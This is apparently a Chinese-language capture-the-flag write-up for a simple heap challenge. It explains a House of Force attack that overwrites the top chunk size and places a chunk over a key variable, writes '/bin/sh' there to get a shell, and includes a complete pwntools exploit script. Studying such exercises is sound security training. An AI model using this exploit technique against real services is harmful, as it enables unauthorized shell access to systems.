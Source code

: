 # KEY
该题为简单的堆利用，用到的技巧为house of force  
有关house of force的原理可以参考：https://bbs.kanxue.com/thread-222924.htm  
这里只讲述几个需要注意的点：  
我们希望把堆块申请到0x601088这个地址，将这个地址加上0x10的大小的堆头和0x8的read函数的读入偏移后通过read函数写入数据的起始地址为
0x6010a0,这正是key变量所在的地址，我们将/bin/sh\x00写入即可getshell  
```python
top_heap = addr + 0xa0
```
top_heap的地址加0xa0是因为题目中free掉的0xa0大小的chunk没有给top chunk所合并，而是进入到tcache中
```python
heap = 0x601088 - top_heap - 0x10
```
这后面-0x10是为了避免堆头部的16字节对偏移的影响  
完整exp:  
```python
from pwn import *

p = remote("",)

context(arch='arm64', os='linux', log_level='debug')

def add(size,context):
    p.recvuntil('> ')
    p.sendline(b'1')
    p.recvuntil('size: ')
    p.sendline(str(size))
    p.recvuntil('data: ')
    p.send(context)

p.recvuntil('gift :D ')
addr = int(p.recvuntil('\n', drop = True),16)
top_heap = addr + 0xa0
success('addr:' + hex(top_heap))
heap = 0x601088 - top_heap - 0x10

add(0x18,b'a'*0x10 + p64(0xffffffffffffffff))
add(heap,b'bbbb')
add(0x10,b'\x00'*8+b'/bin/sh\x00')
p.recvuntil('> ')
p.sendline(b'2')

p.interactive()
```